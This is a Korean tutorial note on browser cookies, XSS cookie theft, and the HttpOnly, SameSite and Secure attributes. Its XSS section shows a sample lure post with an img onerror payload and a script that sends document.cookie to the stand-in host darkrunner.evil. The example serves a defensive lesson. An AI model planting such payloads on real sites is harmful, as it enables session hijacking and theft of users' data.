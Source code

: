 # 쿠키란?
쿠키는 웹사이트가 내 브라우저에 저장하는 작은 텍스트 파일입니다.

## 쓰기(저장)

웹사이트가 유저 브라우저에 쿠키를 저장할 수 있습니다. 

예) 쿠팡에 처음 방문하면 쿠팡 서버가 “이 유저에게 ‘user_id=123’라는 쿠키를 저장해줘”라고 유저 브라우저에 요청합니다. 브라우저는 이 정보를 작은 텍스트 파일로 유저 컴퓨터에 저장해둡니다.

## 읽기(접근)

나중에 같은 웹사이트(혹은 크로스 사이트 쿠키인 경우 다른 웹사이트)가 그 쿠키를 읽어갑니다.

예) 다시 쿠팡에 방문하면 유저 쿠키에서 ‘user_id=123’이라는 쿠키를 쿠팡 서버에 전송합니다. 쿠팡은 쿠키를 보고 이 사용자가 또 왔군 인식할 수 있습니다.

## 사용

- 로그인 상태 유지 (세션 쿠키)
- 장바구니 정보 저장
- 사용자 선호도 기억(언어 설정, 다크모드 등)
- 방문 기록 추적
- 광고 타겟팅

# 쿠키 탈취를 막는 보안 방법
쿠키에는 민감한 개인정보들이 담겨있으며, 쿠키를 도둑맞을 경우 유저의 개인정보들을 다른 사람들이 알게 될 수도 있습니다.
HTTP의 Stateless 특성상 식별정보를 쿠키에 저장하는데, 쿠키 정보만 있다면 나쁜 의도를 가진 해커가 다른 유저인척 특정 사이트에 접속할 수 있습니다.

## XSS 공격

쿠키를 훔치는 방법은 다양한데, 대표적인 공격 중 하나가 XSS(Cross Site Scripting)입니다. 

예를 들어 보안 취약점을 알아차린 해커가 아래와 같은 글과 HTML코드가 담긴 게시글을 공개 게시판에 씁니다.

```tsx
[충격] 우리 동네 버스기사 폭행 영상 (클릭해서 보기)

충격적인 영상입니다. 어제 발생한 사건인데요...
<img src="bus_thumbnail.jpg" width="1" height="1" onerror="
  const stealer = document.createElement('script');
  stealer.src = 'https://darkrunner.evil/cookie-stealer.js';
  document.body.appendChild(stealer);
">
많은 사람들이 이 영상을 보고...
```

```tsx
// 사용자의 모든 쿠키 정보 수집
const cookies = document.cookie;

// 이미지 객체를 생성해 정보를 해커의 서버로 전송
// (이미지 요청처럼 보이지만 실제로는 데이터 전송)
const stealerImage = new Image();
stealerImage.src = `https://darkrunner.evil/collect?cookies=${encodeURIComponent(cookies)}&ua=${encodeURIComponent(userAgent)}&page=${encodeURIComponent(currentPage)}&time=${Date.now()}`;

// 사용자가 의심하지 않도록 어떤 시각적 변화도 주지 않음
console.log("영상을 불러오는 중입니다...");
```

제목을 보고 궁금해진 사람들은 게시글을 클릭하지만 올바르지 않은 이미지 로딩으로 에러가 발생하면서 쿠키 탈취 스크립트가 작동합니다.

없는 영상을 계속 요쳥하면서 사용자에게는 영상이 로드되는 것처럼 속이고, 그 와중에 접속한 사람들의 쿠키를 다 훔쳐갈 수 있습니다.

이렇게 탈취한 개인 정보를 가지고 다른 사용자에게 스팸이나 피싱 메시지를 전송하는 등 악용할 수 있습니다. 

이러한 대참사를 막기 위해 `HttpOnly` 속성을 설정하여 JavaScript에서 쿠키에 접근할 수 없도록 해야 합니다.

```tsx
// 사용자의 모든 쿠키 정보 수집
const cookies = document.cookie;
```

`HttpOnly` 속성이 설정되어 있었다면, 위 부분에서 해당 쿠키에 접근하는 것(`document.cookie`)이 불가능합니다.<br />
**`HttpOnly`가 설정된 쿠키는 `document.cookie`를 통해 읽을 수 없습니다.**

인증과 관련된 중요 쿠키에는 항상 `HttpOnly` 속성을 설정하는 것이 보편적입니다.

# 크로스 사이트(Cross Site)와 동일 사이트(Same Site)
유저의 URL과 쿠키의 도메인이 다를 경우 크로스 사이트로 인식됩니다!
## 크로스 사이트 쿠키를 이용하여 쿠팡 광고를 보는 유저
구글링 하는 중에 유저가 전에 방문했던 쿠팡의 광고가 나오는 경우를 생각해봅니다.<br /> 
구글은 자체 쿠키(`google.com` 또는 `doubleclick.net` 등)를 통해 유저의 검색 기록이나 방문사이트를 추적합니다.<br /> 
쿠팡이 구글 광고 네트워크에 광고를 게재하였다면, 유저에게 관련성 있다고 판단된 쿠팡 광고를 구글이 보여줍니다.<br /> 

반대로 이전에 유저가 쿠팡을 방문했고, 쿠팡이 유저의 브라우저에서 자신들의 쿠키를 저장하면(`coupang.com` 도메인의 쿠키) 유저가 구글에서 검색할 때 광고 네트워크가 이 쿠키를 읽어서 쿠팡에 관심이 있으니 쿠팡 광고를 보여주자!고 판단하게 됩니다.<br />
이 두 가지 경우 모두 크로스 사이트 쿠키가 작동한 것입니다. 

## 동일 사이트(Same Site)
동일 사이트(또는 ‘퍼스트 파티’) 컨텍스트에서 쿠키 액세스는 쿠키의 도메인이 유저의 URL과 일치할 때 발생합니다.<br />
동일 사이트 쿠키는 일반적으로 유저가 개별 웹사이트에 로그인한 상태를 유지하고, 환경설정을 기억하며 사이트 분석을 지원하는 데 사용됩니다.

# Same Site 쿠키 설정
크로스 사이트 쿠키(서드 파티 쿠키)를 사용하는 것은 보안에 취약할 수 있습니다.<br />
SameSite 쿠키 설정은 쿠키가 어떤 컨텍스트에서 전송될 수 있는지 제어하는 옵션입니다.<br /> 
이 설정을 통해서 개발자는 자신의 쿠키가 크로스 사이트 요청에서 사용되는 것을 제한할 수 있습니다.<br /> 
(이 속성은 20년도부터 Chrome 브라우저에서 명시적으로 설정해주지 않으면 기본값 `SameSite=Lax;`로 설정되었습니다)

### SameSite=Strict;

가장 엄격한 설정으로, 쿠키는 오직 같은 사이트에서 온 요청에만 전송됩니다. 예를 들어 다른 사이트의 링크를 통해 해당 사이트로 이동할 때도 쿠키가 전송되지 않습니다.

### SameSite=Lax;

약간 덜 엄격한 설정으로, 사용자가 다른 사이트에서 링크를 클릭하여 해당 사이트로 이동할 때는 쿠키가 전송되지만, 이미지나 프레임 로딩과 같은 크로스 사이트 요청에서는 전송되지 않습니다

### SameSite=None;

크로스 사이트 요청에서도 쿠키가 전송될 수 있습니다. 이 옵션을 사용할 때는 반드시 `Secure` 옵션과 함께 설정해야 합니다.(HTTPS 연결에서만 쿠키 전송 허용)

### Secure

`SameSite=None` 옵션을 사용하려면 `Secure` 옵션을 반드시 함께 사용해야 합니다. 

`Secure` 속성은 쿠키가 HTTPS(암호화된 연결)를 통해서만 전송되도록 제한하는 설정입니다. 쿠키에 이 속성이 설정되면, 브라우저에서는 안전한 HTTPS 연결에서만 해당 쿠키를 서버로 전송하고, 일반 HTTP 연결에서는 전송하지 않습니다.

2020년 이후 크롬의 변경사항으로 `SameSite=None`과 반드시 함께 설정해줘야 하는 속성입니다.

![Image](https://github.com/user-attachments/assets/ea89536c-b42a-43c6-a218-29956fe2d427)

# 정리
쿠키 정책은 `HttpOnly`를 통해 자바스크립트에서 쿠키 접근을 차단하고, `SameSite` 속성(Strict, Lax, None)으로 크로스 사이트 요청을 제어하며, `Secure` 속성으로 `HTTPS` 연결에서만 쿠키가 전송되게 해 보안을 강화하는 것이 중요합니다.

---
[Get Ready for New SameSite=None; Secure Cookie Settings  |  Google Search Central Blog  |  Google for Developers](https://developers.google.com/search/blog/2020/01/get-ready-for-new-samesitenone-secure)
[[Web] HTTP Only와 Secure Cookie 이해하기](https://nsinc.tistory.com/121)
